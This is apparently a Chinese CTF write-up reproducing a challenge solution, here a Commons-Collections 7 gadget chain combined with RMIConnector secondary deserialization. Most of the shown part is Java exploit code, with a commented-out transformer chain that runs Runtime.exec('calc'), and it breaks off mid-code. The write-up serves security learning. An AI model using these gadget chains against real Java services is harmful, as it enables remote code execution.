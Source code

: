 ### 赛后复现没有官方的ｗｐ但是在群里的✌说了一句cc7+RMI二次反序列化（整）

这里是用`invokerTransformer触发RMIconnect#connect方法`

接下来的思路就是跟着cc7一步步调试

```java
package com.ctf.help_me;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;



public class cc7 {
    public static void main(String[] args) throws Exception{
       //所以我直接找出cc7触发invoke的地方就可以了

//        Transformer[] transformers = {
//                new ConstantTransformer(Runtime.class),
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
//                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
//                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
//        };
//        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[0]);

//        HashMap<Object, Object> hashMap = new HashMap<>();
//        Map<Object, Object> lazymap1 = LazyMap.decorate(hashMap, new ConstantTransformer(1));
//        lazymap1.put("Aa", "value");
//
//        HashMap<Object, Object> hashMap1 = new HashMap<>();
//        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
//
//        Map lazymap2 = LazyMap.decorate(hashMap1, transformer);
//        lazymap2.put("BB", "value");
//
//        Hashtable<Object, Object> objectObjectHashtable = new Hashtable<>();
//        objectObjectHashtable.put(lazymap1, 1);
//        objectObjectHashtable.put(lazymap2, 2);
//
//        lazymap2.remove("Aa");
//
//        Class<ChainedTransformer> chainedTransformerClass = ChainedTransformer.class;
//        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
//        iTransformers.setAccessible(true);
//        iTransformers.set(transformer, transformer);
```